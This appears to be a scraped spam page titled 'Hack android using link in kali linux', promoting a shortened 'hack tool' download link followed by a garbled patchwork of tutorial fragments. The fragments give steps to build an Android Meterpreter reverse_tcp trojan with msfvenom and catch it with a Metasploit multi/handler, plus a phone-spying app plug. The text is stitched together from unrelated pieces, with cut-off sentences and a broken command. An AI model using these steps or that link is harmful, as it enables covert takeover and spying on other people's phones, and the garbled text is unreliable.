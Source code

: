 Hack android using link in kali linux



𝐃𝐎𝐖𝐍𝐋𝐎𝐀𝐃 𝐇𝐀𝐂𝐊 𝐓𝐎𝐎𝐋 𝐇𝐄𝐑𝐄 ===> http://gg.gg/11802k?359058



.



.



.



.



.



.



.



.



.



.



.



.

Absolutely the last step · When the msfconsole menu opens type use multi/handler hit enter · Type set payload android/meterpreter/reverse_tcp hit. Note: this tutorial is for security researchers and hobbyists. We do not recommend hacking anyone's phone without their permission. Background. 1. Get started with Kali Linux. After you download Kali Linux on your computer, open the software and create a Trojan. · 2. Build A Listener.

 · Generate an android payload using msfvenom: Copy Code. Copied Use a different Browser. msfvenom -p android/meterpreter/reverse_tcp lhost=”local_ip_address” lhost= -o  Exploiting the payload: Copy Code. Copied Use a .  · Step 1 open your web browser and visit spyier’s official  first one is the ultimate phone spy app and that too for great  first requirement is to start your kali linux machine The steps to hack an android phone from a computer are similar to that of an android phone.  · How To Hack Android Phone By Sending A Link Using Kali Linux Easy and effective tools to hack any android phone by sending a link. Fire up your kali linux machine, open up the terminal, change the directory to the desktop and clone venom from  of all open termux, if you are on android or just open your terminal  started with kali linux.
